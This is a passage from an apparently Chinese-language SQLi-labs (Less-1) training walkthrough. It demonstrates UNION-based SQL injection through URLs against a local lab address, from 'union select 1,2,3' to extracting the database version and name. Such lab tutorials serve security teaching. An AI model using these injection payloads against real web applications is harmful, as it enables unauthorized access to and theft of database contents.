 当超过的时候就会报错，所以就得出一共多少列，结合`union`查询  

`http://10.101.177.100:9990/Less-1/?id=-1' union select 1,2,3--+`

注意这里改成了`-1`，因为这里只是取出首行数据，得让前面的查询变成空的。

![](assets/markdown-img-paste-20180417164548167.png)

`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,version(),3--+`

![](assets/markdown-img-paste-20180417164637201.png)

`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,database(),3--+`

![](assets/markdown-img-paste-20180417164708575.png)

